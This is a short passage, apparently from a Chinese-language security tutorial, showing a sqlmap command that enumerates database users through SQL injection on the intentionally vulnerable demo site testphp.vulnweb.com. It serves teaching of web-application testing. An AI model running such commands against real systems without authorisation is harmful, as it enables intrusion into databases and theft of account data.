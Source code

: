 ![](img/6c92aa64-3640-4011-9c2d-9184315084b5.png)

# 其他命令

类似地，在易受攻击的网站上，我们可以通过数据库进行浏览，用其他命令提取信息。

使用此命令，我们可以从数据库中获取所有用户：

```py
$ python sqlmap.py -u [URL] --users
sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=*" --users
```

在此，我们获得在数据库管理系统中注册的用户：

![](img/3d67ef38-867a-4907-aa9f-5277b7e4b8c1.png)
